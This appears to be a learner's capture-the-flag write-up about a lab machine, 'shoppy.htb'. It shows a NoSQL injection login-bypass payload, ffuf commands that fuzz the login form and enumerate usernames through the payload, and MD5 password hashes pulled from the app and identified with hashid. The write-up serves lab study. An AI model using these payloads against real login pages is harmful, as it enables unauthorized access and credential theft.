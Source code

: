ended up finding a writeup, that gives the solution to the login bypass  
```bash
admin'||''==='
```
the above implies that we already know for sure that the admin user is valid,  
not sure how we'd know that, outside of a few redirects from the gobuster outputs  
I personally haven't seen anything that would have made me think that this login page is powered by a no-sql db.  
So I tried a bunch of no-sql tools to try and see if I could find some more info, but this was unsuccessfull:  
[https://github.com/codingo/NoSQLMap](https://github.com/codingo/NoSQLMap)    
[https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)  
[https://github.com/C4l1b4n/NoSQL-Attack-Suite.git](https://github.com/C4l1b4n/NoSQL-Attack-Suite.git)  
I guess I'll have to wait for the box to retire and have ippsec explain that my tiny brain  

The closest I could get to a way of finding this was some login bypass bruteforcing with ffuf:  
But I still would have needed to have the above expression in a wordlist  
```bash
ffuf \
  -w nosql.txt \
  -u http://shoppy.htb/login \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \ 
  -d 'username=FUZZ&password=FUZZ' 
  -fr "WrongCredentials"
```
expanding on the idea above to get other potential usernames  
```bash
ffuf 
  -w /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -u http://shoppy.htb/login \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=FUZZ'||''==='&password=asdf" \
  -fr "WrongCredentials"
```
we get josh  

once logged in in the web-app we can get the hashes for admin and josh  
```
admin : 23c6877d9e2b564ef8b32c3a23de27b2
josh : 6ebcea65320589ca4f2f1ce039975995
```

those are probably MD5  
```bash
printf '23c6877d9e2b564ef8b32c3a23de27b2'|wc -c
32
hashid '23c6877d9e2b564ef8b32c3a23de27b2'
Analyzing '23c6877d9e2b564ef8b32c3a23de27b2'
[+] MD2
[+] MD5
[+] MD4
[+] Double MD5
[+] LM
[+] RIPEMD-128
[+] Haval-128
[+] Tiger-128
[+] Skein-256(128)
[+] Skein-512(128)
[+] Lotus Notes/Domino 5
[+] Skype
[+] Snefru-128
[+] NTLM
[+] Domain Cached Credentials
```